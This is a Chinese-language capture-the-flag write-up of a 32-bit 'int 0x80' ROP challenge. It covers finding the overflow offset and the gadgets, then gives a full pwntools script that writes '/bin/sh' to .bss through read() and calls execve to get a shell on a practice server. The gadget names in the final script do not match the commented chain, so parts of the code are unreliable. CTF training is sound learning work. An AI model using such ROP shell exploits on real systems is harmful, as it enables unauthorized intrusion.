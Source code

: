 ### int 0x80 ROP

话不多说，直接上题

![](https://pic1.imgdb.cn/item/67d8cd5d88c538a9b5c00a6f.png)

先 checksec 一下

![](https://pic1.imgdb.cn/item/67d8cd4a88c538a9b5c00a66.png)

首先使用 cyclic 生成随机字符

![](https://pic1.imgdb.cn/item/67d8cda888c538a9b5c00a7c.png)

然后 dbg 程序 run 起来输入字符

![](https://pic1.imgdb.cn/item/67d8ce0788c538a9b5c00a88.png)

`cyclic -l` 测出偏移

![](https://pic1.imgdb.cn/item/67d8ce4288c538a9b5c00a8f.png)

查看有什么可利用的

![](https://pic1.imgdb.cn/item/67d8ce9e88c538a9b5c00aa1.png)

给出了 `int 0x80` 系统调用，我们需要调用 eax、ebx、ecx、edx 寄存器，去找找

![](https://pic1.imgdb.cn/item/67d8cf5888c538a9b5c00ac3.png)

![](https://pic1.imgdb.cn/item/67d8cfa488c538a9b5c00ad7.png)

接下来是参数 binsh 字符串，因为没有给出所以只能自己输入

调用 read() 函数将 binsh 字符串写入 bss 段直接调用

而且这道题没有开启 pie，bss 的地址就是绝对地址

![](https://pic1.imgdb.cn/item/67d8d01288c538a9b5c00af1.png)

首先跳转到 read() 函数，返回地址为 p32(pop_edx_ecx_ebx)

```python
# p32(0)：read 函数的第一个参数 fd，设置为 0（标准输入）
# p32(binsh_addr)：read 函数的第二个参数 buf，设置为 /bin/sh 字符串的地址
# p32(0x8)：read 函数的第三个参数 count，设置为 8，表示读取 8 个字节
payload = 'a' * 0x20 + p32(read_addr) + p32(pop_pop_edx_ecx_ebx) + p32(0) + p32(binsh_addr) + p32(0x8)
```

然后调用 `int 0x80`

```python
# p32(pop_eax)：read 函数返回后，跳转到 pop eax; ret，用于设置 eax 寄存器的值
# p32(0xb)：将 0xb 弹出到 eax 寄存器，0xb 是 execve 系统调用的编号
# p32(pop_edx_ecx_ebx)：跳转到 pop edx; pop ecx; pop ebx; ret，用于设置 execve 系统调用的参数
# p32(0)：execve 的第一个参数 edx，设置为 0
# p32(0)：execve 的第二个参数 ecx，设置为 0
# p32(binsh_addr)：execve 的第三个参数 ebx，设置为 /bin/sh 字符串的地址
# p32(int_addr)：跳转到 int 0x80，触发系统调用，执行 execve("/bin/sh", 0, 0)，从而获得一个 shell
payload += p32(pop_eax) + p32(0xb) + p32(pop_edx_ecx_ebx) + p32(0) + p32(0) + p32(binsh_addr) + p32(int_addr)
```

```python
from pwn import *

p = remote("node5.buuoj.cn", 29550)

pop_ecx_ebx = 0x0806e850
pop_eax = 0x080bae06
int_addr = 0x080493e1
read_addr = 0x0806CD50
bin_addr = 0x080EB584

p.recv()

payload = b'a' * 0x20 + p32(read_addr) + p32(pop_ecx_ebx) + p32(0) + p32(bin_addr) + p32(0x8)
payload += p32(pop_eax) + p32(0xb) + p32(pop_ecx_ebx) + p32(0) + p32(0) + p32(bin_addr) + p32(int_addr)

p.sendline(payload)
p.send(b"/bin/sh\x00")
p.interactive()
```